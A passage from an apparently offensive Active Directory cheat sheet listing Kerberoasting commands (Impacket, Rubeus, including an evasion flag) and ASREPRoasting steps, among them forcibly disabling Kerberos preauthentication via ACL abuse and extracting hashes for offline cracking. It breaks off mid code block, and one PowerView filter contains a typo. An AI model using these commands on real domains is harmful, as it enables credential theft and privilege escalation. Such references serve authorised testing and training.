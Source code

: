 - Impacket:
    
    ```
    python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
    ```
    
- Rubeus:
    
    ```
    #Kerberoasting and outputing on a file with a specific format
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
    
    #Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
    
    #Kerberoast AES enabled accounts
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
    
    #Kerberoast specific user account
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
    
    #Kerberoast by specifying the authentication credentials
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
    ```
    

### **ASREPRoast**

If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted

blob and bruteforce it offline.

- PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
- AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more! Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

- And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
    
    ```
    #Get a specific Accounts hash:
    Get-ASREPHash -UserName <UserName> -Verbose
    